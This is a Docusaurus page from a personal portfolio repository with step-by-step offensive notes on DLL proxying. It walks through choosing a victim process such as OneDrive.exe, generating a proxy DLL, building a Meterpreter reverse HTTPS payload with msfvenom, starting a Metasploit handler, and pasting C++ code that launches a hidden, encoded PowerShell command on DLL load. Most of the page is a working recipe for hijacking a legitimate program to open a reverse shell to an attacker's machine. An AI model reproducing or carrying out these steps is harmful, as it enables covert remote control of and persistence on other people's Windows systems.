

repository: jh1h1h/portfolio · page: docs/general/DLL.html · generator: docusaurus

## DLL proxying
Generating a fake DLL for 

1. Choose a victim process (OneDrive.exe is a common one) and use Procmon (from SysInternals) and look for DLLs which fulfil these conditions ![Procmon Tuning](./img/tuning-procmon.png)
2. Open Visual Studio and create a new DLL project
3. Use perfect_dll_proxy.py (in usbtools) to generate the .cpp template based on the specified DLL. Run this command on a Windows machine: `python perfect_dll_proxy.py <insecure dll>`
4. Copy the contents of the generated .cpp file into the dllmain.cpp in the source files of the project
5. `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<kali ip> LPORT=<port> -f psh-cmd`
6. `msfconsole` -> `use exploit/multi/handler` -> `set PAYLOAD windows/x64/meterpreter/reverse_https` -> `set LHOST <kali ip>` -> `set LPORT <port>` -> `exploit`
7. Replace the code in case DLL_PROCESS_ATTACH with this code:
```
case DLL_PROCESS_ATTACH:
    {
        STARTUPINFOA si = { 0 };
        PROCESS_INFORMATION pi = { 0 };
        si.cb = sizeof(si);
        si.dwFlags = STARTF_USESHOWWINDOW;
        si.wShowWindow = SW_HIDE;

        CreateProcessA(
            NULL,
            (LPSTR)"cmd.exe /c powershell -ep bypass -enc  <paste the base64 stuff in the output of 5 here>",
            NULL,
            NULL,
            FALSE,
            CREATE_NO_WINDOW,
            NULL,
            NULL,
            &si,
            &pi
        );

    }
```
